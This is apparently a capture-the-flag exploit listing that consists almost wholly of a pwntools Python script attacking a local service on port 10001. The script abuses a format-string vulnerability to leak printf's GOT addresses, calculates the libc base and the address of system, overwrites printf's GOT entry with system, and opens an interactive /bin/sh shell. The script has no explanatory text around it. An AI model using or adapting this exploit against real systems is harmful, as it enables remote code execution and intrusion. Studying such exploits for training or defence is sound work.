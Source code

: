 ### exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : leakmemory_remote.py
from pwn import *
import binascii
context.log_level = 'debug'
p = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    p.sendline(payload)
    print "leaking:", hex(addr)
    p.recvuntil('right:')
    resp = p.recvuntil(".TMP")
    ret = resp[:-4:]
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = p.recvrepeat(0.2)
    return ret

printf_plt = 0x8048490

# name
p.recv()
p.sendline('nameaaa')
p.recv()

# leak printf@got.plt
payload = "%9$sskye" + p32(printf_plt)
p.sendline(payload)
# \xff\x25 junk code
p.recvuntil('right:\xff\x25')
printf_got_plt = u32(p.recv(4))
log.info("printf_got_plt:"+hex(printf_got_plt))

# leak printf@got
payload = "%9$sskye" + p32(printf_got_plt)
p.sendline(payload)
p.recvuntil('right:')
printf_got = u32(p.recv(4))
log.info("printf_got:"+hex(printf_got))

# libcdatabase
libc_base = printf_got - 0x00049670
log.info("libc_base:"+hex(libc_base))
system_addr = libc_base + 0x0003ada0
log.info("system_addr:"+hex(system_addr))

# overwrite
payload = fmtstr_payload(7, {printf_got_plt: system_addr})
p.sendline(payload)
p.sendline('/bin/sh\x00')

p.interactive()
```
